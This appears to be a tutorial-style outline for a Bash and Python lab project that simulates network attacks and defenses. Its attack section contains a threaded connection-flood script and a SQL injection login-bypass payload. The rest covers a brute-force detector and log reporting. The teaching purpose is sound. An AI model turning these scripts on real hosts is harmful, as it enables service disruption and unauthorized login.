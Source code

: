 For an intermediate project that combines Bash and Python focused on cybersecurity attack bases, you can create a comprehensive project that simulates a basic network attack and defense scenario. Below are the steps and components for such a project:

### Project Overview
1. **Simulated Network Setup**:
   - Create a virtual network environment using Bash scripts.
   - Simulate various devices like servers and clients.

2. **Attack Simulation**:
   - Implement common cyber-attacks using Python scripts.
   - Examples include DDoS, SQL Injection, and Brute Force attacks.

3. **Defense Mechanisms**:
   - Develop Python scripts to detect and mitigate these attacks.
   - Use tools like Snort for intrusion detection and custom Python scripts for response actions.

4. **Logging and Reporting**:
   - Use Bash and Python to log attack attempts and responses.
   - Generate reports and summaries of the attack and defense activities.

### Detailed Steps

#### 1. Simulated Network Setup
- **Bash Script**: Create virtual network interfaces and configure them.
  ```bash
  #!/bin/bash
  # Create virtual network interfaces
  sudo ip link add name veth0 type veth peer name veth1
  sudo ip addr add 192.168.1.1/24 dev veth0
  sudo ip addr add 192.168.1.2/24 dev veth1
  sudo ip link set veth0 up
  sudo ip link set veth1 up
  ```

#### 2. Attack Simulation
- **DDoS Attack using Python**:
  ```python
  import socket
  import threading

  target_ip = "192.168.1.1"
  target_port = 80

  def ddos_attack():
      client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      client.connect((target_ip, target_port))
      client.sendto(b"GET / HTTP/1.1\r\n", (target_ip, target_port))
      client.close()

  for i in range(100):
      thread = threading.Thread(target=ddos_attack)
      thread.start()
  ```

- **SQL Injection using Python**:
  ```python
  import requests

  url = "http://example.com/login"
  payload = {"username": "admin' OR '1'='1", "password": "password"}
  response = requests.post(url, data=payload)

  print(response.text)
  ```

#### 3. Defense Mechanisms
- **Intrusion Detection with Snort**:
  - Install Snort and configure it to monitor the virtual network.
  - Create custom Snort rules to detect specific attack patterns.
  
- **Brute Force Detection in Python**:
  ```python
  import time

  failed_attempts = {}

  def log_attempt(ip):
      current_time = time.time()
      if ip in failed_attempts:
          failed_attempts[ip].append(current_time)
      else:
          failed_attempts[ip] = [current_time]

      if len(failed_attempts[ip]) > 5 and current_time - failed_attempts[ip][-5] < 60:
          print(f"Brute force attack detected from {ip}")

  # Simulate failed login attempts
  for _ in range(10):
      log_attempt("192.168.1.2")
      time.sleep(5)
  ```

#### 4. Logging and Reporting
- **Bash Script to Monitor Logs**:
  ```bash
  #!/bin/bash
  # Monitor system logs and write to a custom log file
  tail -f /var/log/syslog | grep "Attack" >> /var/log/custom_attack_log.log
  ```

- **Python Script for Report Generation**:
  ```python
  import re

  log_file = "/var/log/custom_attack_log.log"

  with open(log_file, "r") as file:
      logs = file.readlines()

  attack_count = len(logs)
  print(f"Total number of attacks detected: {attack_count}")

  for log in logs:
      match = re.search(r"Attack from (\d+\.\d+\.\d+\.\d+)", log)
      if match:
          print(f"Attack detected from IP: {match.group(1)}")
  ```

### Final Thoughts
This project will give you hands-on experience with both offensive and defensive cybersecurity techniques. You will learn how to script and automate various aspects of a cybersecurity infrastructure using Bash and Python.